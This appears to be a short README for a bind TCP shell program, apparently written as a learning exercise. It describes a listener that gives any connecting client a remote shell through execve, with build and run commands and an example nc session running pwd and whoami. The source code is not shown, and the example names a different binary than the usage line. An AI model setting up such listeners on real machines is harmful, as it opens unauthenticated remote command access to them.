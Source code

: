 # Bind TCP Shell
The programm will listen on a command-line TCP port for inbound connections. <br>
When it receives a connection, it will make a execve syscall to get a shell on the remote machine and redirect to descriptors of the programm to our socket <br>

# How to execute
make <br>
./bind_shell -p 'tcp_port' -q 'queue_length <br>
Where tcp_port is the number of the TCP port in which we want to receive connections, and queue_length is the queue_length of the incoming connections.

# Example on remote machine
./server -p 3000 -q 5 <br>
[*] Waiting for incoming connection on 0.0.0.0 at port 3000 <br>
Connection received from 192.168.15.18 in port 44508 managed by the process 22109 <br>

# Example on local machine 
nc -v 192.168.15.18 3000 <br>
Connection to 192.168.15.18 3000 port [tcp/*] succeeded! <br>
pwd<br>
/home/h4z4rd/bind_tcp_shell <br>
whoami<br>
h4z4rd<br>
